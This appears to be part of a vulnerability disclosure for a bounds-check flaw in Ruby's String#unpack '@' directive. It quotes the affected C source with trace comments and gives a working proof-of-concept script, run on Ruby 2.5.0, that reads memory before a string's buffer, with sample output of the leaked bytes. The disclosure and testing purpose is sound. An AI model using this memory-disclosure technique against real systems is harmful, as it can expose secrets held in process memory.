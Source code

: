     ```ruby
    ...
	case '@':
        // EI - Trace: negative length will pass this check
	    if (len > RSTRING_LEN(str))
		  rb_raise(rb_eArgError, "@ outside of string");
         // EI - Trace: negative length will move s backwards
	    s = RSTRING_PTR(str) + len;
	    break;
    ...
    ```
1. Later unpacking will parse memory data before the buffer's start

PoC Script
------------
The script was tested on 32 bit. On 64 bit one should only adjust the numerical values accordingly (64 bit was tested on 2.3.3 and worked).

```ruby
puts 'Version: ' + RUBY_VERSION
puts 2 ** 32 - 100

puts '**********************************'
puts 'Expected:'
"0123456789".unpack("C10").each { |x| puts x.to_s(16) }

puts '**********************************'
puts 'Leaked + Expected:'
"0123456789".unpack("@4294967196C110").each { |x| puts x.to_s(16) }
puts '**********************************'
```

**Output:**

```
Version: 2.5.0
4294967196
**********************************
Expected:
30
31
32
33
34
35
36
37
38
39
**********************************
Leaked + Expected:
28
13
e2
1
c1
24
0
0
40
43
df
1
65
48
92
```